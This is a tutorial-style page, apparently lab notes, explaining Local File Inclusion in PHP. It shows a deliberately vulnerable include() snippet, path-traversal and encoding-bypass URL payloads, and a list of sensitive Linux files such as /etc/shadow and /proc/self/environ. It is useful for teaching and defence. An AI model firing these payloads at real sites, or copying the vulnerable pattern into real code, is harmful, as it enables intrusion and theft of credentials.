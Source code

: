### How does an LFI Attack Work

A Local File Inclusion can occur when an application includes a file as user input without properly validating it. This flaw enables an attacker to include malicious files by manipulating the input.

The following vulnerable PHP code could lead to LFI:

```bash
https://website-example.com/?page=filename.php
https://website-example.com/?page=../../../../etc/test.txt
https://example-vulnerable-website.com/?helpfile=../secret/.htpasswd
https://example-vulnerable-website.com/?module=/etc/passwd
https://example-vulnerable-website.com/?module=contact.php
http://www.example_target_website.com/download.php?file=../../../../etc/passwd
http://www.example_target_website.com/download.php?file=document.html
https://example-vulnerable-website.com/?helpfile=login.txt
https://example-vulnerable-website.com/?module=uploads/image123.gif
https://example-vulnerable-website.com/?download=brochure.pdf
https://example-vulnerable-website.com/?download=../include/connection.php
```
#### An LFI vulnerability is found in various web applications. As an example, in the PHP, the following functions cause this kind of vulnerability:

```bash
include
require
include_once 
require_once 
```
#### The following is an example of PHP code that is vulnerable to LFI. 
```bash
<?PHP 
    include($_GET["file"]);
?>
```
The PHP code above uses a `GET` request via the URL parameter `file` to include the file on the page. The request can be made by sending the following HTTP request: `http://example.thm.labs/index.php?file=hello.txt` to load the content of the `hello.txt` file that exists in the same directory.

The following are some Linux system files that have sensitive information.
```bash
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

```
http://example.thm.labs/page.php?file=/etc/passwd
http://example.thm.labs/page.php?file=../../../../../../etc/passwd
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd
http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd
```



